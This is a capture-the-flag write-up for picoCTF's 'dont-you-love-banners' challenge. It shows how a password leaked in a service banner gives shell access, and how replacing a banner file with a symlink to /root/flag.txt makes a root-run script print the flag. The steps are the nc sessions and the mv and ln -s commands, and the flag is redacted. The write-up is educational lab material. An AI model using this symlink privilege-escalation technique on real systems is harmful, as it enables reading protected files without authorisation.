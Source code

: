 # dont-you-love-banners #
 
## Overview ##

300 points

Category: [General Skills](../)

Tags: `#generalskills #linux`

## Description ##

Can you abuse the banner?

The server has been leaking some crucial information on tethys.picoctf.net 51552. Use the leaked information to get to the server.
To connect to the running application use nc tethys.picoctf.net 54049. From the above information abuse the machine and find the flag in the /root directory.

## Approach ##

The challenge description indicates some leaking of information from the provided port, suggesting we can use this to get to the server :

    $ nc tethys.picoctf.net 51552
    SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Connecting to the challenge server instance via the second port we are prompted for this password :

    $ nc tethys.picoctf.net 63315
    *************************************
    **************WELCOME****************
    *************************************

    what is the password? 
    My_Passw@rd_@1234

We are then prompted for the answers to two cyber security based questions, the answers can be found from googling if not already known :

    What is the top cyber security conference in the world?
    DEF CON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$

We are now presented with a shell and can begin to look around, remembering the challenge description indicates the flag file is in `/root` :

    player@challenge:~$ ls -al
    ls -al
    total 20
    drwxr-xr-x 1 player player   20 Mar  9  2024 .
    drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
    -rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
    -rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
    -rw-r--r-- 1 player player  807 Apr  4  2018 .profile
    -rw-r--r-- 1 player player  114 Feb  7  2024 banner
    -rw-r--r-- 1 root   root     13 Feb  7  2024 text
    
    player@challenge:~$ cat banner
    cat banner
    *************************************
    **************WELCOME****************
    *************************************
    
    player@challenge:~$ cat text
    cat text
    keep digging

    player@challenge:~$ ls -al /root
    ls -al /root
    total 16
    drwxr-xr-x 1 root root    6 Mar 12  2024 .
    drwxr-xr-x 1 root root   29 Nov  7 02:25 ..
    -rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
    -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
    -rwx------ 1 root root   46 Mar 12  2024 flag.txt
    -rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
    
    player@challenge:~$ cat /root/flag.txt
    cat /root/flag.txt
    cat: /root/flag.txt: Permission denied
    
    player@challenge:~$ cat /root/script.py 
    cat /root/script.py
    
    import os
    import pty
    
    incorrect_ans_reply = "Lol, good try, try again and good luck\n"
    
    if __name__ == "__main__":
        try:
          with open("/home/player/banner", "r") as f:
            print(f.read())
        except:
          print("*********************************************")
          print("***************DEFAULT BANNER****************")
          print("*Please supply banner in /home/player/banner*")
          print("*********************************************")
    
    try:
        request = input("what is the password? \n").upper()
        while request:
            if request == 'MY_PASSW@RD_@1234':
                text = input("What is the top cyber security conference in the world?\n").upper()
                if text == 'DEFCON' or text == 'DEF CON':
                    output = input(
                        "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                    if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                        scmd = 'su - player'
                        pty.spawn(scmd.split(' '))
    
                    else:
                        print(incorrect_ans_reply)
                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
                break
    
    except:
        KeyboardInterrupt

We can see this `script.py` python script loads the login banner from `/home/player/banner` file. Which from our initial `ls` we have full read/write access to.

## Solution ##

We can't modify the `script.py` but we can make use of the fact it loads the banner from file in an area with can control, so lets switch out the banner for something else, like the flag file, using symbolic links.

    player@challenge:~$ mv banner banner_orig
    mv banner banner_orig
    player@challenge:~$ ln -s /root/flag.txt /home/player/banner
    ln -s /root/flag.txt /home/player/banner

We still don't have access to read the now linked `flag.txt` file by for example `cat banner`, however the `script.py` runs as root on login. So closing our connection to the server and reconnecting yields:

    $ nc tethys.picoctf.net 63315
    picoCTFpicoCTF{...........redacted.............}

    what is the password? 

Where the actual flag value has been redacted for the purposes of this write up.
